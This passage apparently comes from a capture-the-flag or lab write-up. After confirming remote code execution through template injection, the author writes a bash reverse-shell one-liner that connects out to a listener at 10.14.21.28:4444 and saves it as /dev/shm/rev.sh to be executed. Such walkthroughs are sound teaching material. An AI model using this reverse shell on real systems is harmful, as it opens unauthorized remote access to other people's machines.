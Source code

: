 ![Pasted image 20250805180258.png](../../IMAGES/Pasted%20image%2020250805180258.png)

Ok, `rce` works, it executed `ls` with success, we need a way to get a reverse shell with this, in order to do this, we'll create a reverse shell file and have it executed through the ssti, create a file with this content:

```bash
bash -c 'bash -i >& /dev/tcp/10.14.21.28/4444 0>&1'
```

I'll create it inside of `/dev/shm`:

```
smokey@ip-10-201-101-141:/dev/shm$ nano rev.sh
smokey@ip-10-201-101-141:/dev/shm$ ls
rev.sh
```
